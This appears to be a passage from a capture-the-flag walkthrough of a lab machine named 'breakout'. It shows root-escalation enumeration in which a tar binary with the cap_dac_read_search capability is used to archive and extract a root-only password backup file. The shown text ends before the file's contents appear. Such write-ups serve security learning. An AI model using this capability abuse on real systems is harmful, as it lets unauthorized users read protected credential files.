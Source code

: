Now lets get root 

After enumeration i found this backup file

```
cyber@breakout:~/.spamassassin$ cd /var/backups/
cyber@breakout:/var/backups$ ls -al
total 484
drwxr-xr-x  2 root root   4096 Dec  8 06:25 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Dec  8 06:25 alternatives.tar.0
-rw-r--r--  1 root root  12674 Nov 17 03:45 apt.extended_states.0
-rw-r--r--  1 root root   1467 Oct 19  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      0 Dec  8 06:25 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
```

But we don't have read access hehehe

So checking for capabilites shows that tar has capability set on it

```
cyber@breakout:/var/backups$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
cyber@breakout:/var/backups$
```

We can abuse this by reading any file in the system

Just like how `tar` works we are going to compress the backup file then untar it sweet right?

```
cyber@breakout:/var/backups$ /home/cyber/tar -cf /tmp/lol.tar .old_pass.bak
cyber@breakout:/var/backups$ ls /tmp
lol.tar
systemd-private-c5165a09fba74115b8bc97af191f09af-apache2.service-eVv84g
systemd-private-c5165a09fba74115b8bc97af191f09af-systemd-logind.service-CdTe8h
systemd-private-c5165a09fba74115b8bc97af191f09af-systemd-timesyncd.service-i3220e
vmware-root_358-591958305
cyber@breakout:/var/backups$ cd /tmp
cyber@breakout:/tmp$ tar -xf lol.tar 
cyber@breakout:/tmp$ ls -a
.
..
.font-unix
.ICE-unix
lol.tar
.old_pass.bak
systemd-private-c5165a09fba74115b8bc97af191f09af-apache2.service-eVv84g
systemd-private-c5165a09fba74115b8bc97af191f09af-systemd-logind.service-CdTe8h
systemd-private-c5165a09fba74115b8bc97af191f09af-systemd-timesyncd.service-i3220e
.Test-unix
vmware-root_358-591958305
.webmin
.X11-unix
.XIM-unix
cyber@breakout:/tmp$ mv .old_pass.bak pass.bak
cyber@breakout:/tmp$
```
